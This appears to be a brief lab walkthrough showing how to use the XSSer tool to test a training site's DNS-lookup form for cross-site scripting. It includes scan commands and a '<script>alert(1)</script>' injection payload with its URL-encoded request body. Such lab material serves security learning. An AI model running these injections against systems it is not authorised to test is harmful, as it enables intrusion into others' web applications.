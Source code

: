 ![burp-suite](images/xsser.png)

    xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

## Auto Option

    xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto


## Custom Payload

    xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"


![xsser-payload](images/xsser-payload.png)

    target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

![burp-suite](images/burp-suite.png)